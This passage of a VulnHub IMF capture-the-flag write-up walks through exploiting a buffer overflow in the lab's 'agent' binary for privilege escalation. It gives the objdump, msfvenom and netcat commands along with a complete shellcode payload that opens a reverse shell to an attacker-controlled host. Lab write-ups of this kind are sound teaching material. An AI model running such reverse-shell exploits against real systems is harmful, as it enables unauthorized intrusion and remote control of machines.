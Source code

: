 ![writeup.privesc.steps.3.2](/static/files/posts_vulnhub_imf/screenshot19.png.webp)  

4\. It requests for an agent ID which we find to be `48093572` using `objdump`. Upon entering this ID we are presented multiple options and the #3 option seems vulnerable to a buffer overflow. We found the EIP offset to be 168 and then use [ROPShell](http://ropshell.com/ropsearch?h=fabc1afd43f668df0b812213567d032c) to find a `call` or `jmp` that can be used for redirecting control. We created a linux reverse shell using `msfvenom`, crafted our exploit and used `netcat` to submit it as payload to the locally running instance of the vulnerable `agent` binary:  
```
objdump -d agent | grep "<main>:" -A30
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.92.179 LPORT=4433 -f python -b "\x00\x0a\x0d"
nc -nlvp 4433
echo -en "48093572\n3\n\xbe\xc3\x35\x65\xa2\xd9\xc8\xd9\x74\x24\xf4\x5a\x33\xc9\xb1\x12\x83\xc2\x04\x31\x72\x0e\x03\xb1\x3b\x87\x57\x04\x9f\xb0\x7b\x35\x5c\x6c\x16\xbb\xeb\x73\x56\xdd\x26\xf3\x04\x78\x09\xcb\xe7\xfa\x20\x4d\x01\x92\x72\x05\xad\xd1\x1b\x54\x4e\x04\x8d\xd1\xaf\x96\x4b\xb2\x7e\x85\x20\x31\x08\xc8\x8a\xb6\x58\x62\x7b\x98\x2f\x1a\xeb\xc9\xe0\xb8\x82\x9c\x1c\x6e\x06\x16\x03\x3e\xa3\xe5\x44\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x63\x85\x04\x08\x0a" | nc localhost 7788
```

![writeup.privesc.steps.4.1](/static/files/posts_vulnhub_imf/screenshot20.png.webp)  

